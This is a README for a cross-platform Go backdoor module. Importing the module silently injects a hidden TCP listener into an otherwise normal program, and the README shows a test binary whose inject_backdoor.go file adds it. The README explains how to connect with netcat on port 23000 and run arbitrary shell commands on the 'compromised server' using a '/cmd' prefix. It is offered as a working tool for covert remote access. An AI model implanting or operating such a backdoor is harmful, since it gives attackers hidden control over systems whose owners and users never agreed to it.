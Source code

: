 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Plateform)

_/!\ Work in progress, not a stable release /!\_

## Main goal

Forked from pilebones/backdoorGolang.
Changed from CLI interface to a golang module.
User should just import the module:

`import _ "github.com/guimagalhaes/backdoorGolang/core/socket/server"`

A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible).

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :

```bash
(sudo) pacman -S community/go
```

From Debian :

```bash
(sudo) apt-get install golang-go
```

## Installation

```bash
go get github.com/guimagalhaes/backdoorGolang@v0.2.2
```

## Run test example
Go to tests/simple_example, remove the inject_backdoor.go file and build it:

`go build`

Execute the binary './simple_example' and see that only a simple HTTP server is available:

`curl http://localhost:2020/hello`

Restore the inject_backdoor.go file and build it again:

```
git checkout inject_backdoor.go
go build
```

Execute the new binary ./simple_example and see that besides the simple HTTP server, the backdoor is now injected to the binary.
Follow the next session to see how to test the infected version of the binary.

## Client

Use netcat (It is used the 'localhost:23000' address hardcoded for now):

```bash
netcat localhost 23000
```

Then execute a sequence of shell commands using '/cmd ' as prefix:

```
/cmd ls -l
/cmd ss -natp
...
```

To exit the netcat session:

```
/quit
<enter>
<enter>
```

### Instructions

Each message submit by client is sent to all backdoor's clients like a chat. 
However, an alone chat's feature is useless, there are a set of instructions allowed by all clients which have different behavior for taking advantage of the compromised server.

#### Quit Instruction

This instruction permit to logout the current user

```bash
/quit
/exit
```

Example :

```bash
echo "/quit"|netcat localhost 23000
```

#### Command Instruction

This instruction permit to execute shell command from server. (OS supported : Linux, Windows)

```bash
/cmd <shell-command>
```

Example :

```bash
echo "/cmd ls -l"|netcat localhost 23000
```
